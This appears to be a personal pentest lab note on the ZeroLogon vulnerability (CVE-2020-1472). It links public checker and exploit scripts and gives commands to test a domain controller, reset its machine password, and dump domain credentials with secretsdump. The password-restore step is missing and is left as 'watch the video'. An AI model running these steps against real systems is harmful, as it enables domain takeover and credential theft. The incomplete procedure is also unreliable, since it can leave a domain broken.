 What is ZeroLogon? - https://www.trendmicro.com/en_us/what-is/zerologon.html

dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472

SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472

---

# Check if the DC is vulnerable

We can use the following python script to check if the DC is vulnerable:
https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py

Run it:
```bash
python3 zerologon_tester.py HYDRA-DC 10.0.0.18
```

# Exploit the vulnerability

Run this python script:
https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py

Run like:
```bash
python3 cve-2020-1472-exploit.py HYDRA-DC 10.0.0.18
```
This exploit should reset the password.

We can test if the exploit was successful by running the following cmd:
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.0.18
```

Afterwards restore the password:
TO TIRED... WATCH THE VIDEO
